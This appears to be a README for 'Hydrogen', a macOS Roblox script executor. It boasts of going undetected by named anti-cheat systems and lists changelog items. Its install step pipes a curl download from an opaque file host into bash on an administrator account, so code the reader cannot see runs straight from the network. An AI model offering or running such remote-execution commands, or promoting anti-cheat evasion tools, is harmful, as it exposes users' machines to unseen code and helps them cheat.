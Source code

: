 
> ___

Hydrogen MacOS returns!

This is an extremely early BETA, don't expect it to be perfect please 🙂 Report crashes and non-working scripts to me. 

**Features**:
```md
- Hydrogen is the **only** tool that has a native and Metal accelerated drawing library
- **Undetected** in Da Hood and Faithful AC V3 by europa
- Fast updates
- Stable execution environment
```

> ___

```md
Core changes:
- Add filtergc
- Add sethiddenproperty and gethiddenproperty (doesn’t pass sUNC because I haven’t created a BinaryString deserializer)
- Fixed setthreadidentity
- Fixed getthreadidentity
- Fixed gethui
- Added a service resolver to the index hook (i.e. on a Hydrogen thread, `game.Players` resolves to `game:GetService(“Players”)` so that a game renaming a service doesn’t effect script execution)
```

> ___

- xgladius

> ___

- sUNC: 83%
> https://sunc.rubis.app/?scrap=9QJfq5ialtm7caKh&key=HEpJSqieh3BmSGQT2iO4uOkHsTiebqRt

- UNC: 90%

> ___

> [!Note]
Your Mac account must be adminstrator.
> ___
>Your mac os version must be BigSur or up to run Hydrogen.

> ___

To install, please paste this in your terminal:
```sh
bash -c "$(curl -fsSL https://0ai4bbbahf.ufs.sh/f/4fzhZqSSYIjmUZpbE5XAgLkF67GUQ3DTbxjXyp052lYrBi8M)"
```

> ___

> [!Note]
Please be aware that the current version of Hydrogen Mac is available in this repository. For the most up-to-date information and updates, I recommend joining the Hydrogen Discord server: https://discord.gg/gethydrogen

> ___
